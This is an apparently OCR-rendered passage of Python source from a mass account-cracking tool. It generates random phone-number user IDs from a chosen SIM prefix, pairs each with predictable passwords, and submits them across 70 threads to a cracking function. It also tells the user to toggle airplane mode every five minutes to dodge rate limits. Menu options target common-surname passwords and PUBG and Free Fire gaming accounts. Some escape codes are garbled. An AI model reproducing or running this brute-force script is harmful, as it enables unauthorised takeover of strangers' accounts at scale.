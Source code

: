		exit()
	else:
		print('[•] CHOOSE CORRECT OPTION')
		time.sleep(2)
		rehan()

def menu():
	os.system('clear')
	print(logo)
	print('[1] LAST 7 DIGIT')
	print('[2] ALI + KHAN PASS')
	print('[3] MALIK + BALOCH PASS')
	print('[4] BEST FOR PUBG IDS')
	print('[5] BEST FOR FREE FIRE IDS')
	print('[0] EXIT TO MAIN MENU')
	lines()
	opt = input('[•] CHOOSE: ')
	if opt =='1':
		svn_digit()
	elif opt =='2':
		ali_khan()
	elif opt =='3':
		malik_baloch()
	elif opt =='4':
		pubg()
	elif opt =='5':
		ff()
	elif opt =='0':
		rehan()
	else:
		print('\n\033[1;37m[•] Choose valid option\033[0;97m')
		time.sleep(2)
		menu()

#____

def svn_digit():
	user=[]
	os.system('clear')
	print(logo)
	print('[•] EXAMPLE :92318,92345,92323,92306.ETC')
	lines()
	kode = input('[•]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print('[•] MAX LIMIT [50000]')
	lines()
	limit = int(input('[•] ENTER LIMIT :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		user.append(nmp)
	with ThreadPool(max_workers=70) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(user))
		print('[•] TOTAL ACCOUNTS    : \033[1;32m'+tl)
		print('\033[1;37m[•] SELECTED CODE     : \917[1;32m'+kode)
		print('\033[1;37m[•] METHOD YOU CHOOSE : \917[1;32mLAST 7 DIGIT')
		print('\x1b[1;97m[•] USE FLIGHT [\033[1;32mAIRPLANE\033[1;37m] MODE IN EVERY 5 MINUTES')
		lines()
		for guru in user:
			uid = kode+guru
			pwx = [guru,kode+guru]
			yaari.submit(fcrack,uid,pwx,tl)
	print('[✓] Crack process has been completed')